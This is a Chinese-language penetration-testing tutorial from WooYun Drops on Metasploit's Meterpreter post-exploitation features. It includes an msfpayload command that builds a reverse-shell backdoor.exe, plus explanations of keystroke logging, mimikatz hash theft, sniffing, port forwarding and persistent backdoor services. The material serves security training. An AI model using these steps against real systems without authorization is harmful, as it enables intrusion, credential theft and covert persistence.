 # metasploit 渗透测试笔记(meterpreter 篇)

2014/06/10 12:34 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 背景

* * *

meterpreter 作为后渗透模块有多种类型，并且命令由核心命令和扩展库命令组成，极大的丰富了攻击方式。 需要说明的是 meterpreter 在漏洞利用成功后会发送第二阶段的代码和 meterpreter 服务器 dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行 help 之后发现缺少命令。 连上 vpn 又在内网中使用 psexec 和 bind_tcp 的时候经常会出现这种情况，别担心结束了之后再来一次，喝杯茶就好了。

## 0x02 常用类型

* * *

### reverse_tcp

path : payload/windows/meterpreter/reverse_tcp

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=8080 X > ～/Desktop/backdoor.exe 
```

![enter image description here](img/img1_u146_png.jpg)

![enter image description here](img/img2_u79_png.jpg)

![enter image description here](img/img3_u122_png.jpg)

反向连接 shell,使用起来很稳定。需要设置 LHOST。

### bind_tcp

path : payload/windows/meterpreter/bind_tcp

正向连接 shell，因为在内网跨网段时无法连接到 attack 的机器，所以在内网中经常会使用，不需要设置 LHOST。

### reverse_http/https

path:`payload/windows/meterpreter/reverse_http/https`

通过 http/https 的方式反向连接，在网速慢的情况下不稳定，在某博客上看到 https 如果反弹没有收到数据，可以将监听端口换成 443 试试。

## 0x03 基本命令

* * *

![enter image description here](img/img4_u25_png.jpg)

常用的有

```
background：将当前会话放置后台
load/use：加载模块
Interact：切换进一个信道
migrate：迁移进程
run：执行一个已有的模块，这里要说的是输入 run 后按两下 tab，会列出所有的已有的脚本，常用的有 autoroute,hashdump,arp_scanner,multi_meter_inject 等。
Resource：执行一个已有的 rc 脚本。 
```

## 0x04 常用扩展库介绍

* * *

![enter image description here](img/img5_u101_png.jpg)

meterpreter 中不仅有基本命令还有很多扩展库，load/use 之后再输入 help，就可以看到关于这个模块的命令说明了。

## stdapi command

### 文件相关

stdapi 中有关于文件读写，上传下载，目录切换，截屏，摄像头，键盘记录，和系统相关的命令。 常用的当然就是文件操作及网络有关的命令。 通常我会用 upload 和 download 进行文件上传和下载，注意在 meterpreter 中也可以切换目录，当然也可以编辑文件。所以就不用运行 shell 再用 echo 写。

![enter image description here](img/img6_u14_png.jpg)

使用 edit 命令时需要注意编辑的是一个存在的文件，edit 不能新建文件。 输入 edit + 文件后就会调用 vi 编辑了。

![enter image description here](img/img7_u45_png.jpg)

### 网络相关

网络命令则有列出 ip 信息(ipconfig),展示修改路由表(route),还有端口转发(portfwd)。 比如 portfwd：

![enter image description here](img/img8_u5_png.jpg)

在建立规则之后就可以连接本地 3344 端口，这样远程的 3389 端口就转发出来了。

### 键盘监听

![enter image description here](img/img9_u22_png.jpg)

这里需要注意一下 windows 会话窗口的概念，windows 桌面划分为不同的会话(session)，以便于与 windows 交互。会话 0 代表控制台，1，2 代表远程桌面。所以要截获键盘输入必须在 0 中进行。可 以使用 getdesktop 查看或者截张图试试。否则使用 setdesktop 切换。

![enter image description here](img/img10_u65_png.jpg)

如果不行就切换到 explorer.exe 进程中，这样也可以监听到远程桌面连接进来之后的键盘输入数据。

### mimikatz

这个不多介绍，只是因为这样抓到的 hash 可以存进数据库方便之后调用，不知道有没有什么方法可以快速的用第三方工具抓到 hash/明文然后存进数据库。

![enter image description here](img/img11_png.jpg)

这里是因为我的用户本身就没有密码。

### sniffer

![enter image description here](img/img12_u40_png.jpg)

就是不知道能不能把包保存在 victim 上，然后后期再下下来，待实战考证。

## 0x05 使用自定脚本

* * *

这里的脚本可以是 rc 脚本，也可以是 ruby 脚本，metasploit 已经有很多自定义脚本了。比如上面说过的 arp_scanner,hashdump。这些脚本都是用 ruby 编写，所以对于后期自定义修改来说非常方便，这里介绍一个很常见的脚本 scraper，它将目标机器上的常见信息收集起来然后下载保存在本地。推荐这个脚本是因为这个过程非常不错。可以加入自定义的命令等等。

![enter image description here](img/img13_u46_png.jpg)

![enter image description here](img/img14_u54_png.jpg)

`/.msf4/logs/`下保存了所有脚本需要保存的日志记录，当然不只这一个脚本。同样.msf4 文件夹下还保存了其他东西，比如输入过的命令，msf 运行过程的日志等。 Scraper 脚本将保存结果在`/.msf4/logs/scripts/scraper/`下。

## 0x06 持续性后门

* * *

metasploit 自带的后门有两种方式启动的，一种是通过服务启动(metsvc)，一种是通过启动项启动(persistence) 优缺点各异:metsvc 是通过服务启动，但是服务名是 meterpreter,脚本代码见图，

![enter image description here](img/img15_u4_png.jpg)

这里需要上传三个文件，然后用 metsvc.exe 安装服务。不知道服务名能不能通过修改 metsvc.exe 达到。 安装过程和回连过程都很简单

![enter image description here](img/img16_u5_png.jpg)

下次回连时使用 windows/metsvc_bind_tcp 的 payload 就可以。

![enter image description here](img/img17_u19_png.jpg)

## 0x07 后记

* * *

meterpreter 提供了很多攻击或收集信息的脚本，并且还有很多 API(具体参考官方文档)，及扩展。在对 ruby 代码理解的程度上，如果能根据目标环境和现状修改现有脚本或编写自己的脚本则能够极大的提高效率，获得预期的结果。

版权声明：未经授权禁止转载 [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [Burp Suite 使用介绍（三）](http://drops.wooyun.org/tips/2247)
*   [Burp Suite 使用介绍（四）](http://drops.wooyun.org/tips/2504)
*   [nmap 脚本使用总结](http://drops.wooyun.org/tips/2188)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)
*   [Mimikatz ON Metasploit](http://drops.wooyun.org/tips/2443)